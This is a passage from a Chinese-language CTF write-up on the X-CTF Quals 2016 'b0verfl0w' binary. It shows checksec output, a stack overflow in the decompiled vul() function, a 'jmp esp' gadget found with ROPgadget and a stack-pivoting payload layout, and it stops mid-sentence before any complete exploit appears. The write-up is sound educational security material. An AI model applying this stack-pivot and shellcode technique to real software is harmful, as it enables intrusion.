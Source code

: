 ```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序为 32 位，也没有开启 NX 保护，下面我们来找一下程序的漏洞

```C
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有 50-0x20-4=14 个字节，所以我们很难执行一些比较好的 ROP。这里我们就考虑 stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode 并执行。基本利用思路如下

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启 ASLR 保护，所以我们很难直接知道 shellcode 的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode 处，并且直接控制程序跳转至 esp处。那下面就是找控制程序跳转到 esp 处的 gadgets 了。

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到 esp 的 gadgets。那么我们可以布置 payload 如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们 payload 中的最后一部分改如何设置 esp 呢，可以知道
